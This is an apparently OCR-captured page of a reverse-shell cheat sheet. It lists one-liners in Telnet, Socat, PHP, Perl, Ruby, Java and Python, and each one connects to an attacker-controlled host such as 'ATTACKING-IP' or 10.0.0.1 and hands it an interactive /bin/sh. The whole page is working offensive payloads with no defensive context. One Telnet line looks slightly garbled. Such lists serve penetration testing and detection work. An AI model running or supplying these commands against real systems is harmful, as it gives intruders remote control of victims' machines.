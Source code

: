 ## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Socat

```bash
# connect to 192.168.118.8 port 18000
socat TCP:192.168.118.8:18000 EXEC:sh

```

## Scripts 
* Php

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

* Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
